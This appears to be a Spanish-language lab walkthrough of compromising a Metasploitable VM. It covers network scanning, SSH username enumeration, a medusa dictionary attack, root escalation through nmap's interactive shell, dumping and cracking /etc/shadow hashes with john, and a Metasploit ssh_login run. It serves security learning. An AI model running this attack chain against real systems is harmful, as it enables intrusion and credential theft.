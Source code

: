 # METAESPLOITABLE 1
## METODO 1
descubrimiento de la red

```
ifconfig
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_005024879.png)

>red: 192.168.30.0/24

descubrimiento de la ip del metasploitable

```
nmap -sn 192.168.30.0/24
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_010415201.png)

>Metasploitable: 192.168.30.130/24

identificamos los servicios y versiones que corren en todos los puertos

```
nmap -sV 192.168.30.130 -p-
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_012113513.png)

>22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

buscamos exploits relacionados a ese servicio

```
nmap -sV -p22 192.168.30.130 -oA results.txt
ls results.txt.*
searchsploit -x --nmap results.txt.xml
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_013715856.png)

>OpenSSH 2.3 < 7.7 - Username Enumeration 

buscamos un exploit para esa vulnerabilidad en la red:
[ssh-enum.py](https://github.com/rberrospit/UNI-CBN04/blob/main/ssh-enum.py)

recuperamos el recurso

```
wget https://raw.githubusercontent.com/rberrospit/UNI-CBN04/refs/heads/main/ssh-enum.py?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA
cp ssh-enum.py\?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA ssh-enum.py
rm ssh-enum.py\?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA 
```

creamos un entorno virtual para la correcta ejecucion del ssh-enum.py

```
python3 -m venv venv
source venv/bin/activate
pip install paramiko==2.11.0
```

usamos ssh-enum.py y guardamos todo en usuarios.txt
```
python ssh-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.30.130 > usuarios.txt
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_084635563.png)

filtramos solo nombre de usuario de usuarios.txt

```
grep "found\!" usuarios.txt > logs.txt
awk '{print $2}' logs.txt > users.txt 
rm usuarios.txt 
rm logs.txt
```

guardamos en ssh-user.txt el usuario al cual hallaremos su password usando ataque de diccionario

```
echo "user" > ssh-user.txt
```

buscamos un diccionario en la red:
[unix_users.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/unix_users.txt)

recuperamos el recurso

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/data/wordlists/unix_users.txt 
```

ataque de diccionario

```
medusa -U ssh-user.txt -P unix_users.txt -h 192.168.30.130 -M ssh
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_090558717.png)

>usuario: user

>password: user

hacemos la conexion ssh con el metasploitable

```
ssh -o HostKeyAlgorithms=+ssh-rsa user@192.168.30.130
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_090929626.png)

escalamos privilegios

```
find / -perm -4000 -type f 2>/dev/null
nmap --interactive
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_100643722.png)


```
!sh
cat /etc/passwd
cat /etc/shadow
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_100826936.png)

lista de todos los usuarios

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
```

contraseñas crackeadas usando john

```
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_125011621.png)

## METODO 2

```
msfconsole
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_112139906.png)

```
use 75
set RHOSTS 192.168.30.130
set USER_FILE ./userssh.txt
set PASS_FILE ./unix_users.txt
run
```
>192.168.30.130:22 - Success: 'user:user' 'uid=1001(user) gid=1001(user) groups=1001(user) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_114655729.png)
